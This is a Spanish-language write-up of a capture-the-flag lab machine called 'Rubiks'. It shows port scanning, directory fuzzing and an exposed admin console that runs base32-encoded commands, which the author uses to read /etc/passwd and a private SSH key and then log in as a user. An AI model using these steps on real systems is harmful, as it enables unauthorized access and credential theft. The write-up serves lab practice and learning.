 ## Máquina Rubiks

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64


### Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80 -vvv -Pn 172.17.0.2

![alt text](image.png)


colocamos el dominio al /etc/hosts


### Fuzzing Web

gobuster dir -t 200 -u http://rubikcube.dl/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html,db,png,jpg,git -b 403,404 2>/dev/null


![alt text](image-1.png)

Entramos en /administration y luego en configuraciones hay un menu que dice consola entré y me arroja un error pero ingresando como /administration/myconsole.php si puedo entrar

Al entrar me dice que puedo ejecutar comandos codificados, la codificación es en base 32, entonces intenté:

echo 'cat /etc/passwd' | base32

MNQXIIBPMV2GGL3QMFZXG53EBI======


root:x:0:0:root:/root:/bin/bash

luisillo:x:1001:1001::/home/luisillo:/bin/sh

Entonces ejecuté:

echo 'ls -la' | base32

NRZSALLMMEFA====

-rwxr-xr-x 1 root root 3389 Aug 30 03:28 .id_rsa

echo 'cat .id_rsa' | base32 

MNQXIIBONFSF64TTMEFA====

creé un archivo llamado id_rsa copié el id_rsa de la web y le di permisos 600

### Intrusión

Me conecté por ssh con el usuario luisillo y el id_rsa

![alt text](image-2.png)

### Escalar privilegios

![alt text](image-3.png)
